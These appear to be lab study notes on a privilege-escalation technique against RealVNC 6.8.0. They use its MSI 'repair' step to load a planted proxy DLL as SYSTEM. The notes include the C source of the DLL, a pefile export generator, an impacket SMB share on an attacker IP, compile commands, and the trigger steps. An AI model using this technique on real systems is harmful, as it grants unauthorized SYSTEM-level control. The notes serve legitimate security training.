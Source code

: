 Abusing Vulnerable Software
===
`wmic <product> get name,version,vendor` (or just `wmic product`)?

##### RealVNC 6.8.0 exploit
when running a 'repair' of the software _MSIExec.exe_ is run --> with SYSTEM privs.
Create an evil _adsldpc.dll_ file and store in application folder - which will be execute before the original dll file.

1. create proxy dll (to forward all the function calls to the origincal file rather than creating a bunch of them or ignoring them which sould likely crash the program):
```c 
#include <windows.h>

BOOL WINAPI DllMain(HMODULE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    if (fdwReason == DLL_PROCESS_ATTACH) {
            system("whoami > C:\\output.txt");
    }

    return TRUE;
}
```
--> store as _proxy.c_
```
EXPORTS
    Method1=C:/Windows/System32/original.dll.Method1 @1
    Method2=C:/Windows/System32/original.dll.Method2 @2
```
--> _proxy.def_
2. `mkdir share` + `/opt/impacket/examples/smbserver.py -smb2support -username thm-unpriv -password Password321 public share`
3. `copy c:\windows\system32\adsldpc.dll \\10.11.59.68\public`
4. use the modified script of [this](https://github.com/Cobalt-Strike/ProxyDLLExample/blob/main/get_exports.py):
```python
import pefile
import argparse

parser = argparse.ArgumentParser(description='Target DLL.')
parser.add_argument('--target', required=True, type=str,help='Target DLL')
parser.add_argument('--originalPath', required=True, type=str,help='Original DLL path')

args = parser.parse_args()

target = args.target
original_path = args.originalPath.replace('\\','/')

dll = pefile.PE(target)

print("EXPORTS", end="\r\n")

for export in dll.DIRECTORY_ENTRY_EXPORT.symbols:
    if export.name:
        print(f"    {export.name.decode()}={original_path}.{export.name.decode()} @{export.ordinal}", end="\r\n")
```
5. run `python3 get_exports.py --target share/adsldpc.dll --originalPath 'C:\Windows\System32\adsldpc.dll' > proxy.def`
6. compile the DLL with `x86_64-w64-mingw32-gcc -m64 -c -Os proxy.c -Wall -shared -masm=intel` + `x86_64-w64-mingw32-gcc -shared -m64 -def proxy.def proxy.o -o proxy.dll`
7. copy this to machine (e.g. w curl) + move it: `move proxy.dll c:\users\thm-unpriv\appdata\local\temp\adsldpc.dll`
8. trigger it by opening _add or remove programs_ from start menu + search vnc
	1. _modify_ it + chose _repair_ option when asked what you want to do with it